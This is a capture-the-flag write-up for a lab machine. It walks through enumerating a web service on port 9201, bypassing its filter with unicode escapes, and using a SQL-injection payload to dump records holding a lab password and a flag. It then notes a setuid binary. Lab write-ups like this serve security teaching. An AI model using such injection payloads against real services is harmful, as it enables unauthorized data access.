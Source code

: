 
# Flag "Elasticity"

You will find enumerating, that the service at port 9201 is also a webserver. By error messages using curl you will be able to find the url `http://10.13.37.10:9201/search?category=`

It expects a category. Using the word `admin` it will reveal a message.

```
[{"category": "admin", "body": "Hey Rob - just so you know, that information you wanted has been sent.", "timestamp": "2017-11-13 08:31", "subject": "Just a heads up Rob"}, {"category": "admin", "body": "Thanks dude - all done. You can delete our little secret. Kind regards, Rob", "timestamp": "2017-11-13 13:40", "subject": "Thanks Jazz"}]
```

So if you insert `admin` as unicode escaped string `\u0061\u0064\u006d\u0069\u006e` you'll get the same message.

If you insert `'` as escaped character there will be an error message.

Basic SQLi is leaking the flag. User `admin' || '1'=='1` as encoded payload and you will get:

```
[{"category": "admin", "body": "Hey Rob - just so you know, that information you wanted has been sent.", "timestamp": "2017-11-13 08:31", "subject": "Just a heads up Rob"}, {"category": "maintenance", "body": "Performance to our API has been reduced for a period of 3 hours. Services have been distributed across numerous suppliers, in order to reduce any future potential impact of another outage, as experienced yesterday", "timestamp": "2017-11-10 07:00", "subject": "Maintenance"}, {"category": "admin", "body": "Hey Rob, you asked for the password to the EU-API-7 instance. You didn not want me to send it on Slack, so I am putting it in here as a draft document. Delete this once you have copied the message, and don _NOT_ tell _ANYONE_. We need a better way of sharing secrets. The password is purpl3un1c0rn_1969. -Jason JET{3sc4p3_s3qu3nc3s_4r3_fun}", "timestamp": "2017-11-13 08:30", "subject": "Details for upgrades to EU-API-7"}, {"category": "Maintenance", "body": "All upgrades are complete, and normal service resumed", "timestamp": "2017-11-13 13:32", "subject": "Upgrades complete"}, {"category": "outage", "body": "Due to an outage in one of our suppliers, services were unavailable for approximately 8 hours. This has now been resolved, and normal service resumed", "timestamp": "2017-11-09 15:13", "subject": "Server outage"}, {"category": "admin", "body": "Thanks dude - all done. You can delete our little secret. Kind regards, Rob", "timestamp": "2017-11-13 13:40", "subject": "Thanks Jazz"}, {"category": "maintenance", "body": "An unscheduled maintenance period will occur at 12:00 today for approximately 1 hour. During this period, response times will be reduced while services have critical patches applied to them across all suppliers and instances", "timestamp": "2017-11-13 08:27", "subject": "Upgrades"}]
```

`JET{3sc4p3_s3qu3nc3s_4r3_fun}`

# Flag "Overflown"

The file `/home/leak` is no directory, but a binary.

```
www-data@jet:/home$ file leak
leak: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e423d25f1c41c318a8f5702f93b8e3f47273256a, not stripped
```
